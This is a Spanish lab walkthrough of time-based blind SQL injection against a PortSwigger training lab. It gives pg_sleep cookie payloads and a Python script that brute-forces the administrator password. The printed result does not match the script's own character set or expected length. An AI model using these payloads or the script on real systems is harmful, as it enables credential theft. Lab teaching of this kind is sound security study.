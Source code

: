 
---
# Guía práctica: SQLi Blind — con retrasos y exfiltración de datos

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio la entrada vulnerable es la cookie `TrackingId`. Para confirmarlo interceptamos peticiones con Burp Suite y observamos el valor de la cookie en la cabecera `Cookie`. También se puede ver con DevTools (`Ctrl+Shift+I`).

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp (o abre DevTools).
    
2. Localiza la cabecera `Cookie: TrackingId=...`.
    
3. Modifica temporalmente el valor añadiendo una comilla simple (`'`) al final:  
	 `TrackingId=G1KUuxbiLkvBBAT5'`

4. Reenviamos la petición y comparamos la respuesta con la original. En este laboratorio, al añadir la carga que fuerza un _sleep_ (por ejemplo `' sleep(5)` o una variante válida según el motor) observamos un **retraso de ~5 segundos** en la respuesta. Esto nos indica que la entrada está afectando a la consulta SQL y que la aplicación evalúa una condición en el backend: **confirmamos comportamiento condicional** y, por tanto, la vulnerabilidad.


[Ver Delay - sleep](Delay%20-%20sleep.md)


> Observación práctica: cuando detectemos un retraso reproducible y controlado asociado a una modificación en la entrada (sin error visible en la página), tenemos evidencia consistente de _blind SQLi_ basada en tiempos.

---

## Tipo de inyección

**Tipo identificado:** _Blind SQL Injection — time-based (inyección ciega basada en tiempos)._

**Explicando diferencias:**

- En la _time-based blind SQLi_ la aplicación **no devuelve mensajes de error ni contenido filtrado** que nos diga directamente si una condición SQL es verdadera o falsa. En lugar de ello, el atacante (o el tester) induce una operación que provoca un **retraso temporal** en la ejecución de la consulta cuando la condición es verdadera.
    
- Es útil cuando la salida de la consulta está totalmente suprimida o cuando la aplicación normaliza la respuesta y no revela diferencias de contenido. Mediante la medición del tiempo de respuesta (p. ej. sleep, pg_sleep, benchmark, WAITFOR DELAY según el SGBD), podemos inferir bits de información del backend de forma bit a bit.
    

**Cómo distinguirlo de otras variantes (resumen):**

- _Boolean-based blind:_ la respuesta cambia en el contenido (por ejemplo distinta longitud, redirección o presencia/ausencia de un texto) según la condición SQL.
    
- _Time-based blind:_ la respuesta se mantiene aparentemente igual en contenido, pero **el tiempo de respuesta varía** de forma controlada.


---

## Explotación

```SQL
'||pg_sleep(5)--
```

Explicación: al introducir esta query propia del moto [PostgreSQL](PostgreSQL.md), vemos que la página tarda aproximadamente 5 segundos en responder. Por lo que tenemos una forma potencial de extraer información de la base de datos. Ya que como comprobaremos a continuación. Cuando la página responde a inyecciones basadas en tiempo. Podemos igualar ciertas condiciones como la de el primer carácter de la contraseña de 'administrator' es X, si es cierto se aplicará `sleep(5)` si no la respuesta será inmediata.

```SQL
'%3b select pg_sleep(5)--
```

`%3b` = `;` ---> representación URL-encoded (valor hexadecimal de `;`)

Explicación:

- El uso del `;` permite **ejecutar una consulta independiente** (stacked query). Eso simplifica pruebas porque no necesitamos encajar la inyección dentro de la estructura sintáctica de la consulta original.
    
- Inducir retrasos nos permite inferir información bit a bit (por ejemplo, comprobando si el n-ésimo bit del nombre de usuario es 1 provocando un sleep cuando la condición es verdadera).

Comprobamos el mecanismo: inyectamos una condición siempre verdadera (1=1). Si la petición tarda ~5 s, confirmamos que la inyección se ejecuta y que el servidor admite la sentencia inyectada:
```SQL
'%3b select case when(1=1) then pg_sleep(5) else pg_sleep(0) end--
```

Comprobamos existencia directa: evaluamos por cada fila si `username='administrator'`; si existe alguna fila que cumpla, la consulta debería provocar el `sleep`. Si no vemos retraso, puede deberse a comillas mal cerradas, sensibilidad a mayúsculas o a que la condición no devuelve filas:
```SQL
'%3b select case when(username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--
```

Refinamos la condición. Verificamos que además del usuario exista una contraseña de 20 caracteres. Así convertimos la comprobación en una prueba booleana más específica antes de inducir el retraso:
```SQL
'%3b select case when(username='administrator' and length(password)=20) then pg_sleep(5) else pg_sleep(0) end from users--
```

Empezamos la extracción bit a bit: comprobamos si la primera letra de la contraseña del administrador es `d`. Si la condición es verdadera provocará el `sleep`, y usamos esto para inferir caracteres de la contraseña repetidamente:
```SQL
'%3b select case when(username='administrator' and substring(password,1,1)='d') then pg_sleep(5) else pg_sleep(0) end from users--
```


---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string, time

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits

p1 = log.progress("SQLi")

def makeSQLi():

    password = ""

    p1.status("Iniciando ataque de fuera bruta")
    time.sleep(2)

    p2 = log.progress("Password")

    for position in range (1, 21):
        for character in characters:
            cookies= {
                'TrackingId': f"nNCar1hXkXyVWKKD'%3b select case when(username='administrator' and substring(password,{position},1)='{character}') then pg_sleep(2) else pg_sleep(0) end from users--",
                'session': "cIhyWb1WJykwx1Cy66qctlWEY0tHyuMy"
            }

            p1.status(f"Pos {position} probando '{character}'")

            r = requests.get("https://0af800a80464eb21853f806c00cc0071.web-security-academy.net/", cookies=cookies)

            if r.elapsed.total_seconds() > 2:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

Resultado:

```bash
[↑] Password: dmaihnlkn43lnwñsa
```


---

### Por qué usar `Pos {position} probando '{character}'` vs `p1.status(cookies["TrackingId"])`

- Usamos una cadena corta y controlada porque **evita el wrapping** en el terminal.

- `log.progress().status()` sobrescribe la misma línea; si pintamos una cadena muy larga (la cookie completa) el terminal la divide en varias líneas y da la impresión de “historial” en lugar de una única línea actualizada.

- Mostrar solo la posición y el carácter **mejora la legibilidad**: vemos claramente qué prueba está en curso sin inundar la consola con payloads largos.

- Es más seguro: **no mostramos la carga completa** en claro en la UI, lo que reduce riesgo de filtrar payloads accidentales en logs o capturas de pantalla.

- Es el cambio **mínimo y suficiente** para obtener una salida limpia y el mismo comportamiento funcional.


### Por qué usar `r.elapsed.total_seconds()` vs `time.time()`

- `r.elapsed.total_seconds()` nos da **el tiempo real medido por la librería requests** entre envío y recepción de la respuesta (incluye tiempo de transfer y procesamiento por el servidor hasta que la respuesta empieza a ser leída).

- `time.time()` mide el tiempo wall-clock entre dos llamadas en nuestro proceso: puede incluir tiempo de CPU local, bloqueo de hilo, scheduling del sistema o cualquier otra latencia local que no provenga del servidor.

- `r.elapsed` es más **preciso y específico** para detectar delays inducidos por `pg_sleep()` en el servidor; reduce falsos positivos/negativos causados por fluctuaciones locales.

- `r.elapsed` refleja el **tiempo observado por la librería HTTP**, mientras que `time.time()` es una medida general del sistema (más ruidosa).

- Complementamos `r.elapsed` con `timeout` en la petición y con un **umbral razonable** (o repetir y usar la mediana) para evitar detecciones erróneas por jitter de red.


---
